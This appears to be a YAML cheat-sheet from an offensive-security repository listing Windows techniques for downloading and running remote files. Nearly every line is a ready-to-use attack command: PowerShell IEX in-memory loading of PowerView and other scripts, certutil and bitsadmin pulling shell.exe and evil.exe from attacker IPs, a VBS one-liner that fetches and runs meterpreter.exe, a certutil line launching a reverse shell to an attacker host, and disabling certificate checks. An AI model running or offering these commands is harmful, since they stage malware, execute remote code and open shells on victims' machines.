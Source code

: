 ```yaml
---
functions:
  file-transfer:
    - description: Techniques allow you to download remote files onto windows systems
      code: |
        
        +++++++++POWERSHELL+++++++++
        powershell -c iwr -Uri http://192.168.119.149:8000/task.xml -OutFile task.xml -usebasicparsing

        powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://10.11.0.4/evil.exe', 'new-exploit.exe')"

        Download and run IN MEM ONLY:
        IEX((New-Object System.Net.WebClient).DownloadString('http://192.168.119.149/Invoke-TM.ps1'))
        IEX((New-Object System.Net.WebClient).DownloadString('http://192.168.119.149:8000/PowerView.ps1'))
		
		Ignore Cert Trusts - [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
		
		(New-Object System.Net.WebClient).DownloadFile('http://192.168.119.149/file.exe', 'here.exe')

        +++++++++certutil+++++++++
        certutil.exe -urlcache -f http://192.168.119.149:8000/task.xml task.xml
        certutil.exe -urlcache -f http://192.168.119.149:8000/Invoke-ConPtyShell.ps1 Invoke-ConPtyShell.ps1; Invoke-ConPtyShell 192.168.119.149 9999


        +++++++++PS BITSADMIN+++++++++
        Import-Module BitsTransfer
        Start-BitsTransfer -Source $url -Destination $output
        #OR
        Start-BitsTransfer -Source $url -Destination $output -Asynchronous


        +++++++++CMD BITSADMIN+++++++++
        #does not work with pth

        Download:
        bitsadmin /create /download myjob
        bitsadmin /addfile myjob http://192.168.119.149/shell.exe c:\xampp\htdocs\shell.exe
        bitsadmin /resume myjob
        bitsadmin /reset
        bitsadmin /complete myjob


        +++++++++VBS+++++++++
        see wget.vbs

        Specific File [replace filenames]:
        echo Set o=CreateObject^("MSXML2.XMLHTTP"^):Set a=CreateObject^("ADODB.Stream"^):Set f=Createobject^("Scripting.FileSystemObject"^):o.open "GET", "http://<attacker ip>/meterpreter.exe", 0:o.send^(^):If o.Status=200 Then > "C:\temp\download.vbs" &echo a.Open:a.Type=1:a.Write o.ResponseBody:a.Position=0:If f.Fileexists^("C:\temp\meterpreter.exe"^) Then f.DeleteFile "C:\temp\meterpreter.exe" >> "C:\temp\download.vbs" &echo a.SaveToFile "C:\temp\meterpreter.exe" >>"C:\temp\download.vbs" &echo End if >>"C:\temp\download.vbs" &cscript //B "C:\temp\download.vbs" &del /F /Q "C:\temp\download.vbs"


        +++++++++IE+++++++++
        iexplorer.exe http://192.168.119.149:8000/1.bat
        iexplorer.exe http://192.168.119.149/task.xml

resources: |
  https://raw.githubusercontent.com/MidnightSeer/scripts/master/wget-windows

---
```

